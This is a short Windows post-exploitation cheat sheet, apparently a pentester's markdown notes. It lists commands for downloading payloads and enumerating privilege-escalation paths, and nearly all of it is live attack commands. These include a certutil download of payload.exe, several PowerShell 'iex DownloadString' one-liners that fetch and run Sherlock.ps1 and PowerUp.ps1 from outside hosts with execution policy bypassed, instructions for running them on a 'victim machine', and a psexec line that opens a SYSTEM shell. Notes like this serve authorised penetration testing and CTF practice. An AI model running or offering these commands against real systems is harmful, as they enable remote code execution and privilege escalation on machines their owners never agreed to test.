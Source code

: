 # Download stuff

1. certutil -urlcache -split -f http://source.ip/payload.exe payload.exe
2. Download the file: 
Invoke-WebRequest -Uri "url" -OutFile "dest"
3. Download and execute: 
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"

# Find Stuff

* cmd: dir Backups /s c:\ /p 
* ps:

# Enumeration

powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

## If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"


# Exploitation

* Once Admin privileges obtained
`psexec -sid cmd.exe`

